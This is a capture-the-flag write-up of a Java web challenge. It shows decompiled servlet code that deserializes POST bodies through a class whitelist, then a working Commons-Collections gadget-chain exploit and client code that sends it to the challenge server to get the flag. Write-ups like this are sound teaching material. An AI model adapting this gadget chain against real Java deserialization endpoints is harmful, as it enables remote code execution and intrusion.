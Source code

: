 # Java pwn (misc, 300p)

This was a pretty straightforward task, since we've done similar exploits already here:

https://github.com/p4-team/ctf/tree/master/2016-08-21-bioterra-ctf/akashic_records
https://github.com/p4-team/ctf/tree/master/2018-01-20-insomnihack/pwn_magic_hat

In the task we get a [Java Web Archive](blueprint.war) and IP where this app is running.
We can just add this archive as library to a project in IntelliJ and it will decompile the code for us.
Once we do that it becomes quite obvious what is the purpose here.

We've got a web servlet:

```java
@WebServlet({"/jail"})
public class Server extends HttpServlet {
    private static final long serialVersionUID = 1L;

    public Server() {
    }

    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        try {
            ServletInputStream is = request.getInputStream();
            ObjectInputStream ois = new CustomOIS(is);
            Person person = (Person)ois.readObject();
            ois.close();
            response.getWriter().append("Sorry " + person.name + ". I cannot let you have the Flag!.");
        } catch (Exception var6) {
            response.setStatus(500);
            var6.printStackTrace(response.getWriter());
        }

    }
}
```

So it basically reads objects from the POST payload and deserialize them with custom deserializer.
Interestingly it also sends back the stacktrace if something goes wrong.
The deserializer is:

```java
public class CustomOIS extends ObjectInputStream {
    private static final String[] whitelist = new String[]{"javax.management.BadAttributeValueExpException", "java.lang.Exception", "java.lang.Throwable", "[Ljava.lang.StackTraceElement;", "java.lang.StackTraceElement", "java.util.Collections$UnmodifiableList", "java.util.Collections$UnmodifiableCollection", "java.util.ArrayList", "org.apache.commons.collections.keyvalue.TiedMapEntry", "org.apache.commons.collections.map.LazyMap", "org.apache.commons.collections.functors.ChainedTransformer", "[Lorg.apache.commons.collections.Transformer;", "org.apache.commons.collections.functors.ConstantTransformer", "com.trendmicro.jail.Flag", "org.apache.commons.collections.functors.InvokerTransformer", "[Ljava.lang.Object;", "[Ljava.lang.Class;", "java.lang.String", "java.lang.Object", "java.lang.Integer", "java.lang.Number", "java.util.HashMap", "com.trendmicro.Person"};

    public CustomOIS(ServletInputStream is) throws IOException {
        super(is);
    }

    public Class<?> resolveClass(ObjectStreamClass des) throws IOException, ClassNotFoundException {
        if (!Arrays.asList(whitelist).contains(des.getName())) {
            throw new ClassNotFoundException("Cannot deserialize " + des.getName());
        } else {
            return super.resolveClass(des);
        }
    }
}
```

It's nice that organizers showed exacly which classes we can use, especially including stuff like `ConstantTransformer`, `InvokerTransformer` and `Flag`.

If we check the `Flag` class it's actually:

```java
public class Flag implements Serializable {
    static final long serialVersionUID = 6119813099625710381L;

    public Flag() {
    }

    public static void getFlag() throws Exception {
        throw new Exception("<FLAG GOES HERE>");
    }
}
```

So we basically need to deserialize the Flag object and then call `getFlag` method, and the server should send back the stacktrace with the flag.

The idea is to use transformers chain, which invokes `getFlag` method on `Flag` object when performing transformation, and use this chain in a TiedMapEntry of a LazyMap.
We place this entry in a map and send this map to the server.
Once the server deserializes the payload it will have to resolve the map entry, and thus call the transformers, firing the payload.

Our exploit payload is:

```java
    private static Object preparePayload() {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Flag.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getFlag", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new ConstantTransformer(1)};
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("foo", "foo");
        Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

        Object[] nodesArray = Whitebox.getInternalState(innerMap, "table");
        Object node = Arrays.stream(nodesArray)
                .filter(Objects::nonNull)
                .findFirst()
                .orElseThrow(() -> new RuntimeException("this can't happen"));
        Whitebox.setInternalState(node, "key", entry);
        return innerMap;
    }
```

Keep in mind we don't want the map to "resolve" the lazy tied map entry on our side, so we don't insert the entry directly to the map using map methods.
Instead we use reflection to directly access the array backing the map.

We send this payload via:

```java
    public static void main(String[] args) throws IOException {
        RestTemplate restTemplate = new RestTemplate();
        Object payload = preparePayload();
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            ObjectOutput out = new ObjectOutputStream(bos);
            out.writeObject(payload);
            out.flush();
            byte[] yourBytes = bos.toByteArray();
            HttpEntity<byte[]> entity = new HttpEntity<>(yourBytes);
            ResponseEntity<String> response = restTemplate.postForEntity("http://theflagmarshal.us-east-1.elasticbeanstalk.com/jail", entity, String.class);
            System.out.println(response);
            System.out.println(response.getStatusCode());
            System.out.println(response.getBody());
        } catch (HttpServerErrorException ex) {
            System.out.println(ex.getResponseBodyAsString());
        } finally {
            try {
                bos.close();
            } catch (IOException ex) {
                // ignore close exception
            }
        }
    }
```

And we get back the flag: `TMCTF{15nuck9astTheF1agMarsha12day}`
